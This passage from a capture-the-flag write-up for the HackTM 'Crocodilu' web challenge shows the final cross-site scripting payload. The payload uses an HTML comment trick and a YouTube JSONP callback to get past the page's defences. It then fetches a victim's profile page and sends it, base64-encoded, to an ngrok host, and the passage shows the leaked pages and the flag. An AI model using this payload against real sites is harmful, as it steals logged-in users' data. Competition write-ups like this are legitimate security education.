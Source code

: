 Combined with the BeautifulSoup bypass above, the final payload we submit is:

{% code overflow="wrap" %}
```
<!--><script src="https://www.youtube.com/oembed?url=http://www.youtube.com/watch?v=bDOYN-6gdRE&format=json&callback=fetch(`/profile`).then(function f1(r){return r.text()}).then(function f2(txt){location.href=`https://b520-49-245-33-142.ngrok.io?`+btoa(txt)})"></script>-->
```
{% endcode %}

We can then find the URL of the post containing the flag:

```html
...

<h1>admin's Posts</h1>
<ul class="list-group">
    
    <li class="list-group-item">
        <a href="/post/68a30ae2-a8f3-4d12-9ffa-0564a3a7177b">Welcome to Crocodilu</a>
        <span class="float-right">2023-02-18</span>
    </li>
    
</ul>

...
```

and repeat this one more time to fetch `/post/68a30ae2-a8f3-4d12-9ffa-0564a3a7177b` instead.

```markup
...

<article class="media content-section">
  <div class="media-body">
    <h2>Welcome to Crocodilu</h2>
    <p class="article-content">HackTM{trilulilu_crocodilu_xssilu_9bc3af}</p>
    <small class="text-muted">2023-02-18</small>
  </div>
</article>

...
```
